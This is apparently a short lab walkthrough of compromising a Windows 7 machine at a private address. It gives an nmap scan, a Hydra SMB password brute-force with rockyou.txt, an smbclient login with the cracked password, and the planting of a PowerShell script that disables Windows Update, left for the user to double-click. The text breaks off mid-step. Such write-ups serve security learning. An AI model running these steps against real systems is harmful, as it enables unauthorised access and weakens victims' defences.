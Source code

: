 1. Aggressive Scan with Stealth Scan (-sS)
2. Found out there is an open port on 445 which is the SMB
3. Also on the same line the machine is running Windows 7 Pro
4. Did a nessus scan on that IP address and went to the vulnerabilities section
5. Scrolled down and there was a RDP screenshot page
6. Now I figured out there are 3 users
7. Chose the brute force attack “risk-analyst”
8. Use the “hydra -l risk-analyst -P rockyou.txt 10.0.0.74 smb -t 16” command
9. Waited a dozen minutes and cracked the password “simcity”
10. Ran the smbclient to try to connect to smb to access file sharing
11. smbclient //10.0.0.74/Users -U risk-analyst
12. simcity as the password to login
13. ls     to list directorys
14. cd risk-analyst    to attack them
15. cd desktop    to put a ps1 file
16. Put doubleclickme.ps1    a powershell script that turns off windows update service
17. I have the option the delete it which is    del doubleclickme.ps1
18. Whenever the user double clicks the ps1 file, it runs powershell along with the script inside to disable

  
  
  
 

